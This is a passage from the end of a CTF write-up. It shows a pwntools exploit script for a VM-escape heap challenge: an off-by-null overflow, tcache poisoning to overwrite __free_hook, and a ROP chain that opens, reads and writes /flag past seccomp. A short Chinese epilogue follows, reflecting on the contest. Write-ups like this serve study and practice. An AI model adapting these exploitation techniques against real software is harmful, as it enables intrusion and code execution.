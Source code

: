 ```python
cmd(1)
pp=0x6ca
pay=p64(0x1d7)+p64(0x6ca)+p64(0x1f00)+p64(0xff)+p64(0x5ef)+p64(0xdeadbeef)*7
gdb.attach(p,'''b *0x55555555639a''')#0x21a2

p.sendafter(": ",pay.ljust(0x60,b"A"))
# OFFBYNULL ROP to READ

pay =b'\xee'*0x30+p64(0x6ca)+p64(heap+0x4a0)+p64(0x80000001)+p64(0xa4)#read to overflow
pay+=p64(0x6ca)+p64(0x60)+p64(0xbad)+p64(0x77)#add to pad
pay+=p64(0x6ca)+p64(0x18)+p64(0xbad)+p64(0x77)#add the one which point to free hook
pay+=p64(0x6ca)+p64(0x1eeb28+base)+p64(0x9)+p64(0xa4)#read(0,free_hook,9)
pay+=p64(0x6ca)+p64(heap+0x4a0)+p64(0x80000001)+p64(0xa4)#read our payload ropchain
pay+=p64(0x6ca)+p64(heap+0x4a0)+p64(0xbad)+p64(0x86)#free aim

p.sendline(pay)# ROP chain
#raw_input()
# hijack fd point of tcache head 
p.sendline(p64(0x21)*8+p64(0x1eeb28+base)+p64(0)*2+p64(0x20b11)+p64(0x1)*0x10)
raw_input()
# hijack free_hook
magic=0x7ffff7f237a0-0x00007ffff7dcf000+base
p.sendline(p64(magic))
raw_input()
chunk=heap+0x4a0
rop = ROP(libc)
sys = p64(0x66229+base)
rsp=chunk
rdi=0
rsi=rsp
rdx=0x120
rbp=rsi-8
rcx=sys
payload=p64(0)+p64(chunk)+b'\0'*0x10+p64(0x7ffff7e2d0dd-0x7ffff7dd5000+base)
payload=payload.ljust(0x40,b'\0')+flat([heap+0x4a0])

payload=payload.ljust(0x68,b'\0')+flat([rdi,rsi,rbp,0,rdx,0,0,rsp,rcx])
p.sendline(payload)

rax = rop.find_gadget(['pop rax','ret'])[0]
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = 0x00000000001626d6+base

rop.read(3,chunk+0x110,0x100)
rop.write(1,chunk+0x110,0x100)
rop.dump()
pyaload_rw =rop.chain()

pyaload_open =flat([rax,0x2,rdi,chunk+0xf8,rsi,0,rdx,0,0,sys])
pay = pyaload_open+pyaload_rw
p.send(pay.ljust(0xf8,b'\0')+b'/flag\0')
p.interactive()
```

# Epilogue

这题总的来说还是很好的虽然最后的seccomp有点多余；exploit很有趣一步步扩大利用；逃逸部分让我这个新手感觉很刺激有种逃离world-vm的感觉，有点遗憾最后差了一步比赛的时候没有做出来有点对不起同队的师傅们，这次比赛很多题没机会体验。

打完比赛回来最大的感受是师傅们太强了，我知道的内容相比师傅们的只是宇宙中的一颗尘埃，我想搞v8，搞chromium，搞kernel，搞qemu逃逸！立个flag，明年这时候没搞，我__n_。